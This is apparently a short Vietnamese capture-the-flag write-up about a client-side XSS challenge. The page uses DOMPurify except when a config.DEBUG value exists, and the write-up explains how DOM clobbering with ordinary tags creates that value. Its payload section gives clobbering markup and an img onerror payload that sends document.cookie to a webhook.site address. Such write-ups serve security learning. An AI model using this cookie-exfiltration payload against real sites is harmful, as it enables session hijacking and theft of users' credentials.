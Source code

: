 ![image](https://github.com/user-attachments/assets/123fcf8e-cb02-4a47-8f22-dae4a971b6bf)

```
document.addEventListener("DOMContentLoaded", () => {
	const urlParams = new URLSearchParams(window.location.search);
	const title = atob(urlParams.get("title"));
	const content = atob(urlParams.get("content"));
	document.getElementById("title").innerHTML =
		DOMPurify.sanitize(title);
	if (typeof config !== "undefined" && config.DEBUG) {
		document.getElementById("content").innerHTML = content;
	} else {
		document.getElementById("content").innerHTML =
			DOMPurify.sanitize(content);
	}
});
```
Đoạn code sanitize cả title và content nên ta ko thể xss được ngoại trù trường hợp biến config và config.DEBUG tồn tại. Tuy DOMPurify.sanitize có thể lọc xss nhưng nó lại ko lọc các tag bình thường như <p> , <a> nên ta có thể dùng kỹ thuật DOM clobbering

# payload
title:  
<p id="config"></p><p id="config" name="DEBUG">true</p>  
content:  
<img src=x onerror="fetch('//https://webhook.site/4c6a11ba-e622-45ce-965f-29c5ca311c76?' + document.cookie")>

<img src="https://webhook.site/4c6a11ba-e622-45ce-965f-29c5ca311c76">
